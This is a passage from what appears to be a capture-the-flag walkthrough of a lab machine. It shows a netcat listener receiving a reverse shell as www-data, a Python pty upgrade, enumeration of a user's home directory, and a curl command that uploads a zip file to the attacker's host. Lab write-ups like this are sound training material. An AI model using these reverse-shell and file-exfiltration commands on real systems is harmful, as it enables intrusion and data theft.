 ```
┌──(root㉿kali)-[/home/kali/Documents/UGC/ParkMgmt]
└─# rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.174.128] from (UNKNOWN) [192.168.174.140] 45726
python3 -c 'import pty; pty.spawn("/bin/sh")'


$ whoami
whoami
www-data

```

Navigating to the home directory, we find a local.txt file which is readable, and also a `parkslog.zip` file.

```
$ cd brandon
cd brandon
$ pwd
pwd
/home/brandon
$ ls -la
ls -la
total 32
drwxr-xr-x 2 brandon brandon 4096 May  7 10:01 .
drwxr-xr-x 4 root    root    4096 May  7 10:01 ..
-rw-r--r-- 1 root    root       0 May  7 10:01 .bash_history
-rw-r--r-- 1 brandon brandon  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 brandon brandon 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 brandon brandon  807 Feb 25  2020 .profile
-rw-r--r-- 1 brandon brandon   33 May  7 10:01 local.txt
-rw-r--r-- 1 root    root    6599 May  7 10:01 parklogs.zip

$ $ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 


```

## Escalation

We need to download this zip file to enumerate further. We first run a script which allows files to be uploaded to our kali machine. This script is setup to listen on port 8000, which is one of the other ports left open on the firewall of the machine we are attacking: https://gist.github.com/UniIsland/3346170

```
$ curl -F 'file=@/home/brandon/parklogs.zip' http://192.168.174.128:8000/
curl -F 'file=@/home/brandon/parklogs.zip' http://192.168.174.128:8000/


<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html>
<title>Upload Result Page</title>
<style type="text/css">
* {font-family: Helvetica; font-size: 16px; }
a { text-decoration: none; }
</style>
<body>
<h2>Upload Result Page</h2>
<hr>
<strong>Success!</strong><br><br>'/home/kali/Documents/UGC/ParkMgmt/parklogs.zip'<br><br><a href="None"><button>Back</button></a>
```